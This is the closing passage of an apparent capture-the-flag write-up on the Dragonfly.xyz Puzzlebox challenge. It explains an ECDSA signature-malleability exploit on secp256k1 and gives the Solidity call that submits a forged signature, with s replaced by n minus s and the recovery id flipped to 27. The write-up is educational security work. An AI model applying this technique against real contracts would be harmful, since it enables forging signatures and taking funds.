Another quirk about exploiting signature malleability on SECP256K, is that the recovery id ```v``` (if it is being used) must be changed to 27 instead of 28 so that it correctly points to other quadrant of the curve. Knowing this, we have all the information we need to pull off the final exploit that will open the Puzzlebox.

```
uint256 SECPK251n = uint256(0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141);
puzzle.open(
    uint256(0xc8f549a7e4cb7e1c60d908cc05ceff53ad731e6ea0736edf7ffeea588dfb42d8), // same nonce as original
    // using abi.encodePacked because a block with multiple lines of `hex` notation is cursed imo
    abi.encodePacked(
        uint256(0xc8f549a7e4cb7e1c60d908cc05ceff53ad731e6ea0736edf7ffeea588dfb42d8),
        SECPK251n - uint256(0x625cb970c2768fefafc3512a3ad9764560b330dcafe02714654fe48dd069b6df), // secpk251n - original signature's s value
        uint8(0x1b) // since signature malleability is being exploited, 27 should be provided as recovery id instead of 28 to point to other quadrant
    )
);
```

## Whew. That was an extremely engaging CTF!

All in all, the Dragonfly.xyz CTF was a fantastic experience to participate in and the organizer, Lawrence Forman [@merklejerk on Twitter](https://twitter.com/merklejerk), deserves applause for an excellent educational resource for whitehat hackers and security researchers.
